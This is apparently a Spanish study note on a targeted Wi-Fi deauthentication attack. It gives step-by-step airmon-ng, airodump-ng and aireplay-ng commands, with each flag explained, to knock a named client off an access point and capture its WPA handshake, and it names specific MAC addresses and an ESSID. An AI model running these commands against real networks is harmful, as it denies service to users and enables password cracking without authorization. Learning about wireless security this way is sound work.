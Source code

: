 # DesAuth Dirigido 
Consiste en interceptar una comunicacion del cliente al AP, insertando en la data paquetes de desautenticacion, con el objetivo de denegar el servicio al cliente.

	airmon-ng start wlan1
Iniciamos nuestra tarjeta de red en modo monitor.

	airodump-ng wlan1mon -c 1
Monitoriamos la red en el canal 1

**Datos del AP**
D0:B6:6F:5A:4C:BF  INFINITUM33B5      
**Datos del cliente asociado al AP**
74:23:44:A9:C7:67 

	airodump-ng -c 1 -w CapturasDeAuth --essid INFINITUM33B5 wlan1mon 
Capturamos los paquetes que circulan en la AP

-w *archivo donde se guardaran las capturas de la red.*
-c 1 *especificamos el canal donde se ubica el AP.*
 --essid *nombre de la red victima.*
 wlan1mon *interfaz de red con la cual deseamos escaner el trafico de la red victima.*

Mientras realizamos la captura del trafico vamos a enviar paquetes  DeAuth a un cliente en espesifico para capturar el [[HandShake]].

	aireplay-ng -0 10 -e INFINITUM33B5 -c 74:23:44:A9:C7:67 wlan1mon
Mandamos paquetes DeAuth para expulsar al cliente y que se vuelva a conectar para capturar el HandShake.

-0 *especificamos que se realizara un ataque DeAuth.*
10 *numero de paquetes DeAuth que enviaremos.*
-e *essid de la red.*
-c *direccion mac del cliente que expulsaremos de la red.*
wlan1mon *tarjeta de la red en modo monitor.*

Una vez que el cliente se reconecte abremos capturado el HandShake.